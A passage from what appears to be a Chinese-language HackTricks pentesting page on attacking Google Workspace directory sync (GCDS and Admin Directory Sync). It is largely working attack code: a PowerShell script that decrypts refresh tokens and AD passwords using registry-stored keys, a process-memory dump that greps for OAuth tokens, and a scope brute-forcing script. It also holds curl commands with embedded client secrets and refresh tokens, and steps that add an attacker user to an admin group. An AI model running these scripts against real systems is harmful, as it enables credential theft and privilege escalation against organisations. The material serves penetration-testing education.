https://www.googleapis.com/auth/wallet.chrome" | tr '\n' ' ')

curl -s --data "client_id=77185425430.apps.googleusercontent.com" \
--data "client_secret=OTJgUOQcT7lO7GsGZq2G4IlT" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token
```
</details>

一些使用这些范围的示例：

<details>

<summary>https://www.googleapis.com/auth/userinfo.email &#x26; https://www.googleapis.com/auth/userinfo.profile</summary>
```bash
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/oauth2/v2/userinfo"

{
"id": "100203736939176354570",
"email": "hacktricks@example.com",
"verified_email": true,
"name": "John Smith",
"given_name": "John",
"family_name": "Smith",
"picture": "https://lh3.googleusercontent.com/a/ACg8ocKLvue[REDACTED]wcnzhyKH_p96Gww=s96-c",
"locale": "en",
"hd": "example.com"
}
```
</details>

<details>

<summary>https://www.googleapis.com/auth/admin.directory.user</summary>
```bash
# List users
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/admin/directory/v1/users?customer=<workspace_id>&maxResults=100&orderBy=email"

# Create user
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"primaryEmail": "newuser@hdomain.com",
"name": {
"givenName": "New",
"familyName": "User"
},
"password": "UserPassword123",
"changePasswordAtNextLogin": true
}' \
"https://www.googleapis.com/admin/directory/v1/users"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/drive</summary>
```bash
# List files
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?pageSize=10&fields=files(id,name,modifiedTime)&orderBy=name"
{
"files": [
{
"id": "1Z8m5ALSiHtewoQg1LB8uS9gAIeNOPBrq",
"name": "Veeam new vendor form 1 2024.docx",
"modifiedTime": "2024-08-30T09:25:35.219Z"
}
]
}

# Download file
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/<file-id>?alt=media" \
-o "DownloadedFileName.ext"

# Upload file
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/file.ext \
"https://www.googleapis.com/upload/drive/v3/files?uploadType=media"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/devstorage.read_write</summary>
```bash
# List buckets from a project
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b?project=<project-id>"

# List objects in a bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/<bucket-name>/o?maxResults=10&fields=items(id,name,size,updated)&orderBy=name"

# Upload file to bucket
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/octet-stream" \
--data-binary @path/to/yourfile.ext \
"https://www.googleapis.com/upload/storage/v1/b/<BUCKET_NAME>/o?uploadType=media&name=<OBJECT_NAME>"

# Download file from bucket
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/storage/v1/b/BUCKET_NAME/o/OBJECT_NAME?alt=media" \
-o "DownloadedFileName.ext"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/spreadsheets</summary>  
https://www.googleapis.com/auth/spreadsheets  
</details>
```bash
# List spreadsheets
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files?q=mimeType='application/vnd.google-apps.spreadsheet'&fields=files(id,name,modifiedTime)&pageSize=100"

# Download as pdf
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://www.googleapis.com/drive/v3/files/106VJxeyIsVTkixutwJM1IiJZ0ZQRMiA5mhfe8C5CxMc/export?mimeType=application/pdf" \
-o "Spreadsheet.pdf"

# Create spreadsheet
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"properties": {
"title": "New Spreadsheet"
}
}' \
"https://sheets.googleapis.com/v4/spreadsheets"

# Read data from a spreadsheet
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A1:C10"

# Update data in spreadsheet
curl -X PUT \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"range": "Sheet1!A2:C2",
"majorDimension": "ROWS",
"values": [
["Alice Johnson", "28", "alice.johnson@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/<SPREADSHEET_ID>/values/Sheet1!A2:C2?valueInputOption=USER_ENTERED"

# Append data
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"values": [
["Bob Williams", "35", "bob.williams@example.com"]
]
}' \
"https://sheets.googleapis.com/v4/spreadsheets/SPREADSHEET_ID/values/Sheet1!A:C:append?valueInputOption=USER_ENTERED"
```
</details>

<details>

<summary>https://www.googleapis.com/auth/ediscovery (Google Vault)</summary>

**Google Workspace Vault** 是 Google Workspace 的一个附加组件，提供数据保留、搜索和导出工具，用于管理存储在 Google Workspace 服务（如 Gmail、Drive、Chat 等）中的组织数据。

* 在 Google Workspace Vault 中，**Matter** 是一个 **容器**，用于组织和汇总与特定案件、调查或法律事务相关的所有信息。它作为管理与该特定问题相关的 **Holds**、**Searches** 和 **Exports** 的中心枢纽。
* 在 Google Workspace Vault 中，**Hold** 是对特定用户或组施加的 **保留措施**，以 **防止删除或更改** 他们在 Google Workspace 服务中的数据。Holds 确保相关信息在法律案件或调查期间保持完整且未被修改。
```bash
# List matters
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters?pageSize=10"

# Create matter
curl -X POST \
-H "Authorization: Bearer $access_token" \
-H "Content-Type: application/json" \
-d '{
"name": "Legal Case 2024",
"description": "Matter for the upcoming legal case involving XYZ Corp.",
"state": "OPEN"
}' \
"https://vault.googleapis.com/v1/matters"

# Get specific matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>"

# List holds in a matter
curl -X GET \
-H "Authorization: Bearer $access_token" \
"https://vault.googleapis.com/v1/matters/<MATTER_ID>/holds?pageSize=10"
```
更多 [API 端点在文档中](https://developers.google.com/vault/reference/rest)。

</details>

## GCDS - Google Cloud Directory Sync

这是一个可以用来**将您的活动目录用户和组同步到您的 Workspace** 的工具（在撰写本文时并不是反向同步）。

这很有趣，因为这是一个需要**Workspace 超级用户和特权 AD 用户的凭据**的工具。因此，可能会在一个定期同步用户的域服务器中找到它。

{% hint style="info" %}
要对 **`config-manager.exe`** 二进制文件执行 **MitM**，只需在 `config.manager.vmoptions` 文件中添加以下行：**`-Dcom.sun.net.ssl.checkRevocation=false`**
{% endhint %}

{% hint style="success" %}
请注意 [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) 能够检测 **GCDS**，获取有关配置的信息，**甚至是密码和加密凭据**。
{% endhint %}

还要注意，GCDS 不会将密码从 AD 同步到 Workspace。如果有的话，它只会为在 Workspace 中新创建的用户生成随机密码，如下图所示：

<figure><img src="../../.gitbook/assets/telegram-cloud-photo-size-4-5780773316536156543-x.jpg" alt="" width="515"><figcaption></figcaption></figure>

### GCDS - 磁盘令牌和 AD 凭据

二进制文件 `config-manager.exe`（带 GUI 的主要 GCDS 二进制文件）将默认在 **`C:\Program Files\Google Cloud Directory Sync`** 文件夹中的 **`Untitled-1.xml`** 文件中存储配置的活动目录凭据、刷新令牌和访问权限。尽管它也可以保存在用户的 `Documents` 中或在**任何其他文件夹**中。

此外，注册表 **`HKCU\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\ui`** 中的 **`open.recent`** 键包含所有最近打开的配置文件（xml）的路径。因此，可以**检查它以找到它们**。

文件中最有趣的信息将是：
```xml
[...]
<loginMethod>OAUTH2</loginMethod>
<oAuth2RefreshToken>rKvvNQxi74JZGI74u68aC6o+3Nu1ZgVUYdD1GyoWyiHHxtWx+lbx3Nk8dU27fts5lCJKH/Gp1q8S6kEM2AvjQZN16MkGTU+L2Yd0kZsIJWeO0K0RdVaK2D9Saqchk347kDgGsQulJnuxU+Puo46+aA==</oAuth2RefreshToken>
<oAuth2Scopes>
<scope>https://www.google.com/m8/feeds/</scope>
<scope>https://www.googleapis.com/auth/admin.directory.group</scope>
<scope>https://www.googleapis.com/auth/admin.directory.orgunit</scope>
<scope>https://www.googleapis.com/auth/admin.directory.resource.calendar</scope>
<scope>https://www.googleapis.com/auth/admin.directory.user</scope>
<scope>https://www.googleapis.com/auth/admin.directory.userschema</scope>
<scope>https://www.googleapis.com/auth/apps.groups.settings</scope>
<scope>https://www.googleapis.com/auth/apps.licensing</scope>
<scope>https://www.googleapis.com/auth/plus.me</scope>
</oAuth2Scopes>
[...]
<hostname>192.168.10.23</hostname>
<port>389</port>
<basedn>dc=hacktricks,dc=local</basedn>
<authType>SIMPLE</authType>
<authUser>DOMAIN\domain-admin</authUser>
<authCredentialsEncrypted>XMmsPMGxz7nkpChpC7h2ag==</authCredentialsEncrypted>
[...]
```
注意用户的 **refresh** **token** 和 **password** 是使用 **AES CBC** 加密的，使用随机生成的密钥和 IV 存储在 **`HKEY_CURRENT_USER\SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util`**（无论 **`prefs`** Java 库将偏好设置存储在哪里）中的字符串键 **`/Encryption/Policy/V2.iv`** 和 **`/Encryption/Policy/V2.key`** 以 base64 格式存储。

<details>

<summary>Powershell 脚本用于解密 refresh token 和 password</summary>
```powershell
# Paths and key names
$xmlConfigPath = "C:\Users\c\Documents\conf.xml"
$regPath = "SOFTWARE\JavaSoft\Prefs\com\google\usersyncapp\util"
$ivKeyName = "/Encryption/Policy/V2.iv"
$keyKeyName = "/Encryption/Policy/V2.key"

# Open the registry key
try {
$regKey = [Microsoft.Win32.Registry]::CurrentUser.OpenSubKey($regPath)
if (-not $regKey) {
Throw "Registry key not found: HKCU\$regPath"
}
}
catch {
Write-Error "Failed to open registry key: $_"
exit
}

# Get Base64-encoded IV and Key from the registry
try {
$ivBase64 = $regKey.GetValue($ivKeyName)
$ivBase64 = $ivBase64 -replace '/', ''
$ivBase64 = $ivBase64 -replace '\\', '/'
if (-not $ivBase64) {
Throw "IV not found in registry"
}
$keyBase64 = $regKey.GetValue($keyKeyName)
$keyBase64 = $keyBase64 -replace '/', ''
$keyBase64 = $keyBase64 -replace '\\', '/'
if (-not $keyBase64) {
Throw "Key not found in registry"
}
}
catch {
Write-Error "Failed to read registry values: $_"
exit
}
$regKey.Close()


# Decode Base64 IV and Key
$ivBytes = [Convert]::FromBase64String($ivBase64)
$keyBytes = [Convert]::FromBase64String($keyBase64)

# Read XML content
$xmlContent = Get-Content -Path $xmlConfigPath -Raw

# Extract Base64-encoded encrypted values using regex
$refreshTokenMatch = [regex]::Match($xmlContent, "<oAuth2RefreshToken>(.*?)</oAuth2RefreshToken>")
$refreshTokenBase64 = $refreshTokenMatch.Groups[1].Value

$encryptedPasswordMatch = [regex]::Match($xmlContent, "<authCredentialsEncrypted>(.*?)</authCredentialsEncrypted>")
$encryptedPasswordBase64 = $encryptedPasswordMatch.Groups[1].Value

# Decode encrypted values from Base64
$refreshTokenEncryptedBytes = [Convert]::FromBase64String($refreshTokenBase64)
$encryptedPasswordBytes = [Convert]::FromBase64String($encryptedPasswordBase64)

# Function to decrypt data using AES CBC
Function Decrypt-Data($cipherBytes, $keyBytes, $ivBytes) {
$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aes.KeySize = 256
$aes.BlockSize = 128
$aes.Key = $keyBytes
$aes.IV = $ivBytes

$decryptor = $aes.CreateDecryptor()
$memoryStream = New-Object System.IO.MemoryStream
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($memoryStream, $decryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)
$cryptoStream.Write($cipherBytes, 0, $cipherBytes.Length)
$cryptoStream.FlushFinalBlock()
$plaintextBytes = $memoryStream.ToArray()

$cryptoStream.Close()
$memoryStream.Close()

return $plaintextBytes
}

# Decrypt the values
$refreshTokenBytes = Decrypt-Data -cipherBytes $refreshTokenEncryptedBytes -keyBytes $keyBytes -ivBytes $ivBytes
$refreshToken = [System.Text.Encoding]::UTF8.GetString($refreshTokenBytes)

$decryptedPasswordBytes = Decrypt-Data -cipherBytes $encryptedPasswordBytes -keyBytes $keyBytes -ivBytes $ivBytes
$decryptedPassword = [System.Text.Encoding]::UTF8.GetString($decryptedPasswordBytes)

# Output the decrypted values
Write-Host "Decrypted Refresh Token: $refreshToken"
Write-Host "Decrypted Password: $decryptedPassword"
```
</details>

{% hint style="info" %}
请注意，可以通过检查 **`C:\Program Files\Google Cloud Directory Sync`** 中的 **`DirSync.jar`** 的 java 代码来检查此信息，搜索字符串 `exportkeys`（因为这是二进制文件 `upgrade-config.exe` 期望转储密钥的 cli 参数）。
{% endhint %}

除了使用 powershell 脚本外，还可以使用二进制文件 **`:\Program Files\Google Cloud Directory Sync\upgrade-config.exe`**，参数为 `-exportKeys`，并从注册表中以十六进制格式获取 **Key** 和 **IV**，然后只需使用一些 cyberchef 结合 AES/CBC 以及该密钥和 IV 来解密信息。

### GCDS - 从内存中转储令牌

与 GCPW 一样，可以转储 `config-manager.exe` 进程的内存（这是 GCDS 主二进制文件的 GUI 名称），您将能够找到刷新和访问令牌（如果它们已经生成）。\
我想您也可以找到配置的 AD 凭据。

<details>

<summary>转储 config-manager.exe 进程并搜索令牌</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos_hacktricks\Desktop\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$chromeProcesses = Get-Process -Name "config-manager" -ErrorAction SilentlyContinue | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}

Remove-Item -Path $dumpFolder -Recurse -Force
```
</details>

### GCDS - 从刷新令牌生成访问令牌

使用刷新令牌，可以使用它以及以下命令中指定的客户端ID和客户端密钥生成访问令牌：
```bash
curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03gQU44mwVnU4CDHYE736TGMSNwF-L9IrTuikNFVZQ3sBxshrJaki7QvpHZQMeANHrF0eIPebz0dz0S987354AuSdX38LySlWflI" \
https://www.googleapis.com/oauth2/v4/token
```
### GCDS - 范围

{% hint style="info" %}
请注意，即使拥有刷新令牌，也无法请求访问令牌的任何范围，因为您只能请求 **由您生成访问令牌的应用程序支持的范围**。

此外，刷新令牌在每个应用程序中都无效。
{% endhint %}

默认情况下，GCSD不会以用户身份访问所有可能的OAuth范围，因此使用以下脚本，我们可以找到可以与 `refresh_token` 一起使用以生成 `access_token` 的范围：

<details>

<summary>用于暴力破解范围的Bash脚本</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=118556098869.apps.googleusercontent.com" \
--data "client_secret=Co-LoSjkPcQXD9EjJzWQcgpy" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03PR0VQOSCjS1CgYIARAAGAMSNwF-L9Ir5b_vOaCmnXzla0nL7dX7TJJwFcvrfgDPWI-j19Z4luLpYfLyv7miQyvgyXjGEXt-t0A" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

这是我在写作时得到的输出：
```
https://www.googleapis.com/auth/admin.directory.group
https://www.googleapis.com/auth/admin.directory.orgunit
https://www.googleapis.com/auth/admin.directory.resource.calendar
https://www.googleapis.com/auth/admin.directory.user
https://www.googleapis.com/auth/admin.directory.userschema
https://www.googleapis.com/auth/apps.groups.settings
https://www.googleapis.com/auth/apps.licensing
https://www.googleapis.com/auth/contacts
```
#### 创建一个用户并将其添加到组 `gcp-organization-admins` 以尝试在 GCP 中提升权限
```bash
# Create new user
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/users' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"primaryEmail": "deleteme@domain.com",
"name": {
"givenName": "Delete",
"familyName": "Me"
},
"password": "P4ssw0rdStr0ng!",
"changePasswordAtNextLogin": false
}'

# Add to group
curl -X POST \
'https://admin.googleapis.com/admin/directory/v1/groups/gcp-organization-admins@domain.com/members' \
-H 'Authorization: Bearer <ACCESS_TOKEN>' \
-H 'Content-Type: application/json' \
-d '{
"email": "deleteme@domain.com",
"role": "OWNER"
}'
```
{% hint style="danger" %}
无法为新用户授予超级管理员角色，因为**刷新令牌没有足够的范围**来授予所需的权限。
{% endhint %}

## 管理目录同步

与使用 GCDS 同步用户的方式的主要区别在于，GCDS 是通过一些需要下载和运行的二进制文件手动完成的，而**管理目录同步是无服务器的**，由 Google 在 [https://admin.google.com/ac/sync/externaldirectories](https://admin.google.com/ac/sync/externaldirectories) 管理。

在撰写本文时，该服务处于测试阶段，支持两种类型的同步：来自 **Active Directory** 和 **Azure Entra ID：**

* **Active Directory：** 要设置此功能，您需要**授予 Google 访问您的 Active Directory 环境**。由于 Google 仅能访问 GCP 网络（通过 **VPC 连接器**），您需要创建一个连接器，然后通过在 GCP 网络中的虚拟机或使用 Cloud VPN 或 Cloud Interconnect 来使您的 AD 可用。然后，您还需要提供具有目录读取访问权限的帐户的**凭据**和通过 **LDAPS** 联系的**证书**。
* **Azure Entra ID：** 配置此功能只需在 Google 显示的弹出窗口中**使用具有读取权限的用户登录 Azure**，Google 将保留对 Entra ID 的读取访问令牌。

一旦正确配置，这两种选项都将允许**将用户和组同步到 Workspace**，但不允许从 Workspace 配置用户和组到 AD 或 EntraID。

在此同步过程中还允许的其他选项包括：

* 向新用户发送登录电子邮件
* 自动将他们的电子邮件地址更改为 Workspace 使用的地址。因此，如果 Workspace 使用 `@hacktricks.xyz`，而 EntraID 用户使用 `@carloshacktricks.onmicrosoft.com`，则为在帐户中创建的用户将使用 `@hacktricks.xyz`。
* 选择**包含将被同步的用户的组**。
* 选择要在 Workspace 中同步和创建的**组**（或指示同步所有组）。

### 从 AD/EntraID -> Google Workspace (& GCP)

如果您成功攻陷了 AD 或 EntraID，您将完全控制将与 Google Workspace 同步的用户和组。\
但是，请注意，用户在 Workspace 中可能使用的**密码**可能是相同的，也可能不是。

#### 攻击用户

当同步发生时，它可能会同步**来自 AD 的所有用户或仅来自特定 OU 的用户**，或仅**属于 EntraID 中特定组的用户**。这意味着要攻击一个已同步的用户（或创建一个新的被同步的用户），您需要首先弄清楚哪些用户正在被同步。

* 用户可能**重用来自 AD 或 EntraID 的密码**，但这意味着您需要**攻陷用户的密码以登录**。
* 如果您可以访问用户的**邮件**，您可以**更改现有用户的 Workspace 密码**，或**创建一个新用户**，等待其被同步并设置帐户。

一旦您访问了 Workspace 中的用户，可能会默认授予一些**权限**。

#### 攻击组

您还需要首先弄清楚哪些组正在被同步。尽管有可能**所有**组都在同步（因为 Workspace 允许这样做）。

{% hint style="info" %}
请注意，即使组和成员资格被导入到 Workspace，**在用户同步中未同步的用户在组同步期间也不会被创建**，即使他们是任何同步组的成员。
{% endhint %}

如果您知道哪些来自 Azure 的组在**Workspace 或 GCP 中被分配权限**，您可以将一个被攻陷的用户（或新创建的用户）添加到该组中并获得这些权限。

还有另一种方法可以滥用 Workspace 中现有的特权组。例如，组 `gcp-organization-admins@<workspace.email>` 通常在 GCP 中具有高权限。

如果从 EntraID 到 Workspace 的同步**配置为用 Workspace 的电子邮件替换导入对象的域**，攻击者将能够在 EntraID 中创建组 `gcp-organization-admins@<entraid.email>`，将用户添加到该组，并等待所有组的同步发生。\
**该用户将被添加到组 `gcp-organization-admins@<workspace.email>` 中，从而在 GCP 中提升权限。**

### 从 Google Workspace -> AD/EntraID

请注意，Workspace 需要具有对 AD 或 EntraID 的只读访问权限的凭据以同步用户和组。因此，目前无法滥用 Google Workspace 对 AD 或 EntraID 进行任何更改。**因此，目前这是不可能的**。

我也不知道 Google 将 AD 凭据或 EntraID 令牌存储在哪里，您**无法通过重新配置同步来恢复它们**（它们不会出现在网页表单中，您需要再次提供）。但是，从网页上可能可以滥用当前功能来**列出用户和组**。

## 参考

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
